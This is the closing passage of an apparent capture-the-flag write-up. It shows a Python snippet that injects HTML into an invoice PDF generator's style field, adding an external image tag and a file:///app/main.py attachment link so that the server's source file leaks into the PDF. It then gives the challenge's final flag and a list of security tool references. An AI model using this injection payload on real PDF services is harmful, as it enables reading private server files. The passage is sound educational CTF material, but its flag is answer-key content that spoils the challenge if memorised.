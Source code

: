 ```python

invoice = {"companyName":"", "email":"", "invoiceNumber":"1", "date":"html", "<":">", "items":[["1","manoelt","manoelt","2"],["1","manoelt","manoelt","2"]],"styles":{"body":{"}</style//<img src='http://mydomain.com.br'><link rel='attachment' href='file:///app/main.py'><style> body: {  background-color":"white"}}}
payload = {"d" : json.dumps(invoice)}
pdfize(payload, "style_invoice.pdf")
```

Finally I opened the PDF and there it was:

![Leak](images/leak_file.png)

```CONGRATULATIONS!

If you're reading this, you've made it to the end of the road for this CTF.
```

HERE IT IS: c8889970d9fb722066f31e804e351993


Check [Others](Others.md) for reports from other players.

### References
1. https://crackstation.net/hashing-security.htm
2. https://crypto.stanford.edu/~dabo/papers/ssl-timing.pdf
3. https://github.com/skylot/jadx
4. https://en.wikipedia.org/wiki/Symmetric-key_algorithm
5. https://en.wikipedia.org/wiki/Binary_search_algorithm
6. https://www.tcpdump.org/
7. https://github.com/maurosoria/dirsearch
8. https://github.com/danielmiessler/SecLists
9. https://github.com/sqlmapproject/sqlmap
10. https://en.wikipedia.org/wiki/Length_extension_attack
11. https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks
12. https://github.com/ffuf/ffuf
13. https://github.com/digininja/CeWL
14. https://www.python.org/dev/peps/pep-0515/
15. https://github.com/PortSwigger/turbo-intruder
16. https://github.com/noraj/flask-session-cookie-manager
17. https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense
18. https://github.com/s0md3v/AwesomeXSS
